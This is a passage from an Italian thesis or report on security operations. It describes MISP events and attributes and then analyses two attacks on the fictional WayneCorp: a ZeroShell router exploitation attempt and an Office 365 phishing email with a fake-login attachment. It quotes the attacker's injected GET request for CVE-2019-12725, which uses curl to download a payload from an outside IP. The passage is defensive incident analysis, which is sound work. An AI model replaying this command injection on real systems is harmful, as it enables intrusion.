        
\includegraphics[width=0.90\columnwidth]{images/4_caso_d'uso_img/eventMISp.png}
    \end{center}
    \caption{Esempio evento MISP}
    \label{fig:Esempio evento MISP}
\end{figure}  

Quando si crea un evento si possono utilizzare dei template, sostanzialmente dei form preconfigurati per semplificarne la compilazione (es. template evento “phishing” può contenere un sender IP, email adress, conetuto mail,ecc.. ), si possono crearne di nuovi o modificarli in base alle esigenze dei casi d’uso.\par
Glie Eventi se possiedono attributi in comune vengono correlati e mostrati nel “correlation graph”:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/corrMISP.png}
    \end{center}
    \caption{Esempio correlation graph MISP}
    \label{fig:Esempio correlation graph MISP}
\end{figure}  


Un evento si può esportare in diversi formati come regola IDS oppure direttamente il plain text degli attributi.\par
Gli eventi vengono generati tramite due modalità:

\begin{itemize}
    \item\textbf{Organizzazioni remote o locali:} Le organizzazioni generano eventi manualmente, quindi l’analista dell’organizzazione crea un nuovo alert ed esegue manualmente la popolazione/ricerca degli attributi e li inserisce nell’evento, oppure esistono dei connector a piattaforme di detection oppure SIEM che generano in automatico l’evento MISP con le info relative all’allarme SIEM;
    \item\textbf{Feed:} Viene generato un evento a seguito di un pull da una lista di IOC pubblici (es. malwaredomains, ZeuS compromised URL blocklist, ecc...) e sarà popolato da una lista di attributi ricevuti dalla repository interrogata.
\end{itemize}

Gli eventi vengono condivisi tra le varie organizzazioni tramite protocollo TLP.

\newpage

\subsection{Attributi}

Gli attributi sono elementi di informazione, contenuti in un evento, possono essere di tipo url, Ip, domini, link ad analisi esterne, ecc... 
Gli attributi possonono essere organizzati e raggruppati in oggetti e possono essere arricchiti da strumenti di analisi esterni(es. VirusTotal, OTX, GreyNoise, ecc..).

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/attributeMISP.png}
    \end{center}
    \caption{Esempio attributo MISP}
    \label{fig:Esempio attributo MISP}
\end{figure} 

\section{Scenari di attacco}

In questa sezione verranno mostrati due casi di tentativi di attacco che hanno coinvolto la WayneCorp. di come ho utilizzato gli strumenti per eseguire l'analisi e la mitigazione degli stessi.

\subsection{Tentativo accesso tramite Zeroshell su servizio web esposto}

La WayneCorp possiede diversi servizi web esposti e di conseguenza bersagliati continuamente.\par 
OSSIM ha generato un allarme segnalando un tentativo di injection nella quale sono stati correlati 26 eventi:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/zeroshellevents.png}
    \end{center}
    \caption{Allarme OSSIM Zeroshell}
    \label{fig:Allarme OSSIM Zeroshell}
\end{figure} 

Gli eventi correlati riguardano le chiamate e risposte tra l’IP malevolo e il servizio esposto.\par
L’alert è stato generato dalla regola di detection grazie alla subscription al pulse OTX "Scanning Activity for ZeroShell Unauthenticated Access".\par
Il sensore OSSIM durante l’inspection del netflow ha rilevato un IoC presente nell’pulse, generando l’evento SIEM e il conseguente allarme: 

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/inspectionOSSIM.png}
    \end{center}
    \caption{Log pacchetto netflow analizzato}
    \label{fig:Log pacchetto netflow analizzato}
\end{figure} 

Analizzando L’IP esterno (138[.]91[.]224[.]48) presente nella lista di eventi, tramite gli strumenti di analisi, si può osservare che possiede una reputation “poor” e ad esso sono associati 7 pulse OTX:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/talos.jpg}
    \end{center}
    \caption{Analisi IP 138[.]91[.]224[.]48 con Cisco Talos Intelligence }
    \label{fig:Analisi IP1 con Talos}
\end{figure} 

\newpage

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/otxIP.PNG}
    \end{center}
    \caption{Analisi IP 138[.]91[.]224[.]48 con OTX}
    \label{fig:Analisi IP1 con OTX}
\end{figure} 

L’attaccante tenta di sfruttare la vulnerabilità di tipo "remote code execution" non autenticato su router ZeroShell Linux (CVE-2019-12725), tramite la seguente chiamata GET in http: 

\begin{center}
    \textit{**IP pubblico **:/cgi-bin/kerbynet?Section=NoAuthREQ\&Action=x509List\&type=*";cd /tmp;curl -O http://5[.]206[.]227[.]228/zero zero;"}
\end{center}
 
 Esaminando la richiesa HTTP malevola osserviamo che e’ presente una CURL verso l’IP 5[.]206[.]227[.]228:
 
  \begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/taloIp2.png}
    \end{center}
    \caption{Analisi IP 5[.]206[.]227[.]228 con Cisco Talos Intelligence}
    \label{fig:Analisi IP2 con Talos}
\end{figure} 
 
 \newpage
 
 \begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/otxIp2.PNG}
    \end{center}
    \caption{Analisi IP 5[.]206[.]227[.]2288 con OTX}
    \label{fig:Analisi IP2 con OTX}
\end{figure} 

Anche il secondo IP 5[.]206[.]227[.]228,presente nella CURL, possiede una reputazione “poor” e ad esso sono associati 15 pulse OTX.

Identificata la minaccia sono stati analizzati i log del firewall da Graylog.\par
I log ci mostrano che la GET malevola è stata effettuata correttamente:

 \begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/graylogZero.png}
    \end{center}
    \caption{Analisi log del Cisco ASA con Graylog}
    \label{fig:Analisi log del Cisco ASA con Graylog}
\end{figure} 

Eseguendo una query per l’IP 5[.]206[.]227[.]228 non ritorna nessun log.
Abbiamo inoltrato l’analisi al team IT di competenza che ci hanno confermato che tutte le richieste presentate sulla porta 80, il server ha risposto con un redirect verso la 443, prevenendo l’esecuzione del codice malevolo. Inoltre il client malevolo non ha ripresentato la richiesta in https.\par

Grazie alla collaborazione di tutti gli strumenti e alle informazioni di intelligence siamo stati in grado di identificare e profilare la minaccia permettendoci di gestire prontamente il tentativo di attacco  

\subsection{Tentativo di phishing e condivisione analisi su MISP}

Il vettore e-mail continua ad essere uno dei più utilizzati dai criminal hacker per diffondere malware di ogni genere, soprattutto durante il lockdown.\par
Ormai esistono moltissime tecniche che permettono di eludere i sistemi di mail filtering, fortunatamente la WayneCorp. possiede degli utenti con una buona cultura sulla sicurezza informatica, che rappresenta un punto di forza per i team di sicurezza.\par
Per l’appunto siamo stati allertati da un utente che ci ha richiesto di analizzare una mail sospetta che ha ricevuto in Inbox.

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.85\columnwidth]{images/4_caso_d'uso_img/phishing.png}
    \end{center}
    \caption{Mail ricevuta all'utente}
    \label{fig:Mail ricevuta all'utente}
\end{figure} 

Analizzando l’header della mail i protocolli di certificazione SPF, DKIM e DMARC venivano correttamente superati e il messagio veniva categorizzato come “NO SPAM” (NSPM - spam score 1):

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.85\columnwidth]{images/4_caso_d'uso_img/header.png}
    \end{center}
    \caption{Analisi header mail della figura 4.25}
    \label{fig:Analisi header mail della figura 4.25}
\end{figure} 

\newpage

Il messaggio viene inviato dall’IP 40[.]107[.]76[.]42 appartenente a Microsoft.
L’IP possiede una buona reputazione e non è presente in nessuna blacklist.

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/talosip3.png}
    \end{center}
    \caption{Analisi IP 40[.]107[.]76[.]42 con Cisco Talos Intelligence}
    \label{fig:Analisi IP 40[.]107[.]76[.]42 con Cisco Talos Intelligence}
\end{figure} 

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.80\columnwidth]{images/4_caso_d'uso_img/domainVS.png}
    \end{center}
    \caption{Analisi sender domain con VirusTotal}
    \label{fig:Analisi sender domain con VirusTotal}
\end{figure} 

Da come mostra il grafo generato da VirusTotal, il dominio del sender non comunica direttamente con file malevoli.

\newpage

La mail possedeva un allegato in formato “.htm” che abbiamo aperto e analizzato in sandbox:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.80\columnwidth]{images/4_caso_d'uso_img/attacched.png}
    \end{center}
    \caption{Pagina "fake login" nell'allegato .htm}
    \label{fig:Pagina "fake login" nell'allegato .htm}
\end{figure} 

Il file .htm apriva una “fake login” di Office 365, nella quale si presentava il classico form di login.
Analizzando le rechieste eseguite dall’allegato, possiamo osservare che il form inviava i dati al dominio how-to-beauty[.]com: 

\begin{figure}[h]
    \begin{center}
